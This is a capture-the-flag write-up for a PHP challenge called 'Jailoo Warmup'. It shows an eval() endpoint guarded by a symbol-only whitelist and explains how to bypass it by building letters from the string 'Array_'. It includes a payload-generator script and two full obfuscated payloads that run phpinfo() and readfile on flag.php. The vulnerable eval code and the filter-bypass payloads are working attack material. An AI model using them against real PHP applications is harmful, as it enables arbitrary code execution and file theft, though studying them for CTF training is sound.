




### JAILOO WARMUP

 ```php 
<?php 
	if(sizeof($_REQUEST)===2&& sizeof($_POST)===2){
	$cmd=$_POST['cmd'];
	$submit=$_POST['submit'];
	if(isset($cmd)&& isset($submit)){
		if(preg_match_all('/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/', $cmd, $matches)){
			echo "<div class=\"success\">Command executed !</div>";
			eval($cmd);
		}else{
			die("<div class=\"error\">NOT ALLOWED !</div>");
		}
	}else{
		die("<div class=\"error\">NOT ALLOWED !</div>");
	}
	}else if ($_SERVER['REQUEST_METHOD']!="GET"){
		die("<div class=\"error\">NOT ALLOWED !</div>");
	}
	 ?>
 ```

Given the source code ,you notice that there are  few characters  allowed .

You have to manage writing a php code which allows you to read ***FLAG.PHP*** .

Watching this php behaviour,



It returns **"Array"**



 As you can see once you try to concatenate , you get a string ***“Array_”*** which is  all what you need to write the payload.

You only need to extract  the first letter  and keep incrementing until you get all the letters needed to write your payload.



Here is a solver which will do the job .

```php
<?php
$_=([]._)[_==__];
$a=array('P','H','P','I','N','F','O');
$payload='//A'. "\n".'$_=([]._)[_==__];'."\n".'$__="";'."\n";
foreach ($a as $key) {

		$num=-1;
		for ($i=0; $i <26; $i++) { 
			$found= $_++;
			$num++;
			$res='';
			if($found===$key){
				
				for ($i=0; $i < $num ; $i++) { 
					$res.='$_++;';

				}
			$payload.="//".$key."\n".$res."\n".'$__.=$_;'."\n".'$_=([]._)[_==__];'."\n";
			break;
			}
		}
	$_=([]._)[_==__];
	
}
echo "PAYLOAD :\n".$payload;

?>
```


Gather more information by getting the phpinfo.

***PHPINFO();***

```
$_=([]._)[_==__];$__="";$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$__();
```

You'll notice that ***readfile*** is not disabled .


***READFILE(“FLAG.PHP”);***

```
$_=([]._)[_==__];$__="";$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$__.=$_;$____=$__;$__="";$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_.".";$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$____($__);
```


Works pretty fine !


